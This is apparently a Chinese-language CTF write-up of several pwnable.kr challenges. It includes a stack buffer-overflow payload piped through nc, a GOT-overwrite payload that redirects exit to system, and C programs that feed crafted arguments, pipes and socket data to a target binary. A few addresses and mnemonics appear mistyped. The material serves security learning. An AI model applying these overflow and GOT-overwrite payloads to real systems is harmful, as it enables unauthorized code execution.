 #bof
```
import struct
padding = 'A'*52 #这里不是算的
key_addr = struct.pack("I", 0xcafebabe)
print padding + key_addr
```
重点是确定填充的字节，由func中<br>
0x56555649 <+29>:   lea    eax,[ebp-0x2c]<br>
2C 是 44 填充44个A 再加上addr正好覆盖ebp这个地址，而<br>
0x56555654 <+40>:  cmp    DWORD PTR [ebp+0x8],0xcafebabe<br>
所以只有再加8就正好覆盖了比较的地址，即key的位置。<br>
知道这个之后就可以利用python加管道进行pwn<br>
(python -c 'print "A"*52+"\xbe\xba\xfe\xca"';cat) | nc pwnable.kr 9000<br>

#flag
IDA打开之后就看到upx的字符，猜测是upx壳，linux下看了一下，apt安装下upx然后就可以解壳了<br>

#passcode
这题完全不知道怎么做，然后看国外大牛的wp。理解了半天，没懂。<br>
然后自己gdb调试，，忽然想起来，在调用welcome之后和调用login之后，<br>
esp的地址一样，这样因为函数开始的时候都有mov    ebp,esp。<br>
所以ebp(ebp在整个函数初始化指针之后是不会再改变的)就是可以认为是一样的，然后welcome调用结束后的数据并没有清楚，而是留在栈上，栈调用welcome结束后仅仅是把指针调整了，并没有清除数据，所以这里就是可以利用的地方。<br>
然后这个还有个条件，就是scanf("%d", passcode1);IDA逆向出来是__isoc99_scanf("%d");这样程序就会直接读取对应栈上的值<br>
0x70-0x10 = 0x60 = 96。只要有96个就能覆盖passcode1的值<br>
```
welcome:
0x0804862f <+38>:   lea    edx,[ebp-0x70]
0x08048632 <+41>:    mov    DWORD PTR [esp+0x4],edx
0x08048636 <+45>:    mov    DWORD PTR [esp],eax
0x08048639 <+48>:    call   0x80484a0 <__isoc99_scanf@plt>
login:
0x0804857c <+24>:   mov    edx,DWORD PTR [ebp-0x10]
```
之后就是直接的plt利用了，不过这个也是理解了不少时间，实际上就是call exit的时候，实际上是先执行jmp _exit (_exit就是实际上exit的地址，而采用全局偏移表的方式存储，只要把这个地方改掉就行了。)
```
0x080485d7 <+115>:   mov    DWORD PTR [esp],0x80487a5
0x080485de <+122>:   call   0x848450 <puts@plt>
0x080485e3 <+127>:   mov    DW0ORD PTR [esp],0x80487af
0x080485ea <+134>:   call   0x8048460 <system@plt>
```
system("")对应的地址：0x080485d7 = 134514135<br>
0x080485e3<br>
偏移表中exit对应的地址804a018<br>
于是就可以'A'*96 + '\x18\xa0\x04\x08' + '134514135\n'<br>

#random
开始看的rand没有思路，然而，，，如此简单。<br>
rand需要先srand初始化化下时间种子，否则rand的返回值一直固定。然后利用异或的性质，ok<br>

#input
```
./input `python -c "print 'A '*47 + '\x00' + '\x20\x0a\x0d'"`
```
发现不行，截取字符串的时候没有把\x00当成一个整体。<br>
然后只能又是找wp，发现都是用c来写的，定义个数组orz<br>
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
int main()
{
    char* padding[101] = {[0 ... 99] = "A"};//0~99全赋值为"A"
    padding['A'] = "\x00";
    padding['B'] = "\x20\x0a\x0d";
    padding['C'] = "31337";
    printf("Start\n");
    execve("/home/input/input",padding,NULL);//这里/home/input/input写成了home/input/input
    return 0;
}
```
第一个直接通过传参数就能通过。<br>
第二个就有点头疼了，查了一下fd句柄的说明<br>
0:stdin标准输入<br>
1:stdout<br>
2:stderr<br>
orz。然后又看wp，有一种是利用dup2来改变fd句柄，通过管道进行赋值<br>
```
    if(fork() == 0)
    {
        printf("Parent Processing is here...\n");
        dup2(pipe1[0],0);
        close(pipe1[1]);
        dup2(pipe2[0],2);
        close(pipe2[1]);
        execv("/home/input/input", padding, envp);
    }
    else
    {
        printf("Son processing is here...\n");
        write(pipe1[1], "\x00\x0a\x00\xff", 4);
        write(pipe2[1], "\x00\x0a\x02\xff", 4);
    }
```
这样前三个就over了<br>
然后第四个是文件读写，这个还是很简单的，查一下fopen和fwrite就好了<br>
最后一个是socket，之前搞arm的时候看了一点然而。。。<br>
```
	int sd, cd;
	struct sockaddr_in saddr, caddr;
	sd = socket(AF_INET, SOCK_STREAM, 0);
    //建立socket
	if(sd == -1){
		printf("socket error, tell admin\n");
		return 0;
	}
	saddr.sin_family = AF_INET;
	saddr.sin_addr.s_addr = INADDR_ANY;
	saddr.sin_port = htons( atoi(argv['C']) );
    //建立bind连接，端口是argv['C'],在前面设置为padding['C'] = "9000";
	if(bind(sd, (struct sockaddr*)&saddr, sizeof(saddr)) < 0){
		printf("bind error, use another port\n");
    		return 1;
	}
	listen(sd, 1);//开启监听
	int c = sizeof(struct sockaddr_in);
	cd = accept(sd, (struct sockaddr *)&caddr, (socklen_t*)&c);
	if(cd < 0){
		printf("accept error, tell admin\n");
		return 0;
	}
    //接收长度应该为4
	if( recv(cd, buf, 4, 0) != 4 ) return 0;
	if(memcmp(buf, "\xde\xad\xbe\xef", 4)) return 0;
	printf("Stage 5 clear!\n");
```
然后方法其实不是在c里面写个socket通信，直接python<br>
python -c "print '\xde\xad\xbe\xef'“ | nc 127.0.0.1 9000<br>
Tips: 本地ip地址是127.0.0.1<br>
9000好像不行，换一个。88888..试了好久，网络各种卡。。<br>
算了，还是写个socket吧。。<br>
```
int sd,cd;
struct sockaddr_in saddr, caddr;
sleep(5);
printf("Connecting\n");
sd = socket(AF_INET, SOCK_STREAM, 0);
if(sd == -1)
{
    printf("socket error~\n");
    return 0;
}
saddr.sin_family = AF_INET;
saddr.sin_addr.s_addr = INADDR_ANY;
saddr.sin_port = htons(atoi(padding['C']));
connect(sd, (struct sockaddr *)&saddr, sizeof(saddr));
send(sd, "\xde\xad\xbe\xef", 4, 0);
close(sd);
```
通过~<br>

to be continued
